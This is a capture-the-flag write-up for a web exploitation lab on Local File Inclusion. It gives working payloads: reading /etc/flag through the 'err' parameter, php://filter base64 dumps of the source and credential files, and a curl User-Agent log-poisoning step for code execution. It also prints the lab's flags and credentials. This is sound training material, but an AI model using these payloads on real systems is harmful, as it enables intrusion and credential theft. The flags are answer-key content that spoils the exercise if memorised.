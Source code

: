 # [Day 6] Web Exploitation - Patch Management Is Hard

## Learning Objectives

1. What is an Local File Inclusion (LFI) vulnerability?
2. How to indentify an LFI vulnerability?
3. How to test for an LFI vulnerability?

## Deploy the attached VM and look around. What is the entry point for our web application?

We open firefox and go to our machine URL: http://MACHINE-IP.p.thmlabs.com \
We notice that we are redirected to the following URL: http://MACHINE-IP.p.thmlabs.com/index.php?err=error.txt

Answer:
```
err
```

## Use the entry point to perform `LFI` to read the `/etc/flag` file. What is the flag?

We are at the following URL: http://MACHINE-IP.p.thmlabs.com/index.php?err=error.txt \
We change the file in `err` for: /etc/flag to retrieve the flag

Answer:
```
THM{d29e08941cf7fe41df55f1a7da6c4c06}
```

## Use the PHP filter technique to read the source code of the `index.php`. What is the `$flag` variable's value?

We are at the following URL: http://MACHINE-IP.p.thmlabs.com/index.php?err=error.txt \
We change the file in `err` for: php://filter/convert.base64-encode/resource=index.php to retrieve the base64 encoded file \
We can go to [CyberChef](https://gchq.github.io/CyberChef/) to decode the string and obtain the following:
```php
<?php session_start();
$flag = "THM{791d43d46018a0d89361dbf60d5d9eb8}";
include("./includes/creds.php");
if($_SESSION['username'] === $USER){                        
	header( 'Location: manage.php' );
	die();
} else {
	$labNum = "";
  require "./includes/header.php";
?>
<div class="row">
  <div class="col-lg-12">
  </div>
  <div class="col-lg-8 col-offset-1">
      <?php if (isset($error)) { ?>
          <span class="text text-danger"><b><?php echo $error; ?></b></span>
      <?php }

?>
 <p>Welcome <?php echo getUserName(); ?></p>
	<div class="alert alert-danger" role="alert">This server has sensitive information. Note All actions to this server are logged in!</div> 
	</div>
<?php if($errInclude){ include($_GET['err']);} ?>
</div>

<?php
}
?>
```

Answer:
```
THM{791d43d46018a0d89361dbf60d5d9eb8}
```

## There is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?

We are at the following URL: http://MACHINE-IP.p.thmlabs.com/index.php?err=error.txt \
We change the file in `err` for: php://filter/convert.base64-encode/resource=./includes/creds.php to retrieve the base64 encoded file \
We can go to [CyberChef](https://gchq.github.io/CyberChef/) to decode the string and obtain the following:
```php
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
?>
```

Answer:
```
McSkidy:A0C315Aw3s0m
```

## Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server?

We log in using `username`: McSkidy and `password`: A0C315Aw3s0m to retrieve the flag in the "password recovery" page

Answer:
```
THM{552f313b52e3c3dbf5257d8c6db7f6f1}
```

## The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log.

We use curl to inject PHP code in the `User-Agent`:
```bash
curl -A "<?php phpinfo();?>" http://MACHINE-IP.p.thmlabs.com/  
```

We can analyze the PHP info and retrieve the webserver name

Answer:
```
lfi-aoc-awesome-59aedca683fff9261263bb084880c965
```